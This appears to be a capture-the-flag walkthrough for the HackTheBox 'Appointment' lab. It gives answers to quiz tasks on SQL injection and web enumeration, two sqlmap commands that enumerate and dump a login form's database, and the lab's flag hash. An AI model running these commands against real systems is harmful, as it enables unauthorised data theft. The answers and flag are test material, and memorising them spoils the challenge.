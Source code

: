 ```
Platform: HackThebox
Challenge: Appointment
OS: Debian
Task: Web, Databases, Injection, Apache, MariaDB, PHP, SQL, Penetration Tester Level 1, Reconnaissance, SQL Injection
Tools Used: Nmap, SqlMap
Author: Paul B.
```
TASK 1

What does the acronym SQL stand for?
```
Structured Query Language
```

TASK 2

What is one of the most common type of SQL vulnerabilities?
```
SQL Injection
```

TASK 3

What does PII stand for?
```
Personally Identifiable Information
```

TASK 4

What does the OWASP Top 10 list name the classification for this vulnerability?
```
A03:2021-Injection
```

TASK 5

What service and version are running on port 80 of the target?
```
Apache httpd 2.4.38 ((Debian))
```

TASK 6

What is the standard port used for the HTTPS protocol?
```
443
```

TASK 7

What is one luck-based method of exploiting login pages?
```
```

TASK 8

What is a folder called in web-application terminology?
```
Directory
```

TASK 9

What response code is given for "Not Found" errors?
```
404
```

TASK 10

What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?
```
dir
```

TASK 11

What symbol do we use to comment out parts of the code?
```
#
```

### Enumeration
SQLMap
Command to enumerate databases
```
sqlmap -u "<Target-IP>" --data="username=test&password=test&form=submit" --method POST --dbs --batch
```
![HTB - Appointment - SQLMAP Dbs.png](:/0280196b134541b0bdedd036374f78d5)

Command to dump all data from database
```
sqlmap -u "<Target-IP>" --data="username=test&password=test&form=submit" --method POST -D appdb --dump all --batch
```
![HTB - Appointment - SQLMap Data.png](:/a74cb35737024fddaf8b72fb090779da)

SUBMIT FLAG

Submit root flag
```
e3d0796d002a446c0e622226f42e9672
```
